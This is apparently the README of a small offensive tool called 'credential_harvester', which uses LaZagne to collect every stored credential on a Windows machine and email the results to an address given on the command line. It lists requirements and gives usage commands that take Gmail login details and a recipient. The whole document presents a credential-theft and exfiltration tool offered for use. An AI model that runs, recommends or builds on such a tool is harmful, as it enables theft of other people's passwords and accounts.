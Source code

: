 # credential_harvester
Simple program to harvest and email all the stored credentials on a windows machine using laZagne

Requirements:

[+]  Python 2.5 and above

[+]  Scapy 2.2 and above (pip install scapy)

Usage:

python execute_cmd.py -u [Gmail username] -p [Gmail password] -e [Email address to receive report]

python3 execute_cmd.py -u [Gmail username] -p [Gmail password] -e [Email address to receive report]
